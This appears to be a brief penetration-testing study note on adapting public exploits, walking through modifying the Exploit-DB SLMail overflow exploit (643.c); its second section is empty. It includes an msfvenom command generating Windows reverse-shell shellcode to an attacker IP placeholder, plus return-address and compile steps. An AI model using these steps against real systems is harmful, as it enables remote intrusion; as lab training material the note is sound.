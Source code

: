 # Public Exploits

---- REMEMBER NOT TO USE CODE WITHOUT CHECKING IT THROUGHLY FIRST -----

## Sources
* [Security Focus](http://securityfocus.com/)
* [Exploit DB](https://www.exploit-db.com/)
* Searchsploit `searchsploit slmail`

## Cleaning a Exploit (1)
1. Find the exploit using `searchsploit slmail`

2. Copy the file to your working folder `cp /usr/share/exploitdb/platforms/windows/remote/643.c .`

3. Open the file and check it line by line, looking for return addresses and shellcode inparticular, the results can be seen in `643-fixed.c`

   - Return address is incorrect and from the comments is for a different server, change `define retadd "\x9f\x45\x3a\x77" /*win2k server sp4 0x773a459f*/
   ` to `define retadd "\x8f\x35\x4a\x5f" /*JMP ESP*/`
   - The hardcoded shell code isn't for our enviroment so we will need to swap that out to the one we generated `msfvenom -p windows/shell_reverse_tcp LHOST=YO.UR.IP.AD LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
   - The offsets also need to be adjusted

4. Then compile using `gcc 643.c -o slmail-linux`

5. Then test our exploit as we did in the linux buffer overflow exercise

## Cleaning a Exploit (2)

